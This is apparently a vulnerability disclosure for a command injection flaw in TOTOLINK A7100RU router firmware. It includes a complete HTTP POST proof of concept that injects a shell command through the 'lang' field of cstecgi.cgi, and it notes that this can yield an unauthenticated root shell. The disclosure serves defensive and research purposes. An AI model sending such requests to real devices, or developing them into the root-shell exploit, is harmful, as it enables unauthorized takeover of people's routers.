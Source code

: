 # TOTOlink A7100RU(V7.4cu.2313_B20191024)Command injection vulnerability

## Overview

Manufacturer's website information：http://totolink.net/

Firmware download address ：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1. Affected version

![img](img/wps28.jpg) 

 

 

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details

![image-20220720193932845](img/image-20220720193932845.png)

The program passes the content under the lang parameter to v2, then formats v2 into the v6 stack through the snprintf function, and finally executes the content in v6 through the cstesystem function, which has a command injection vulnerability

## POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024

2. Attack with the following POC attacks

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanCfg",
"lang":"1$(ls>/tmp/123;)"}
```

The results of the reproduction are as follows![img](img/wps3.jpg) 

 

Figure 2 POC attack effect

Finally, you can write exp, which can obtain a stable root shell without authorization

![img](img/wps4.jpg) 

 

 

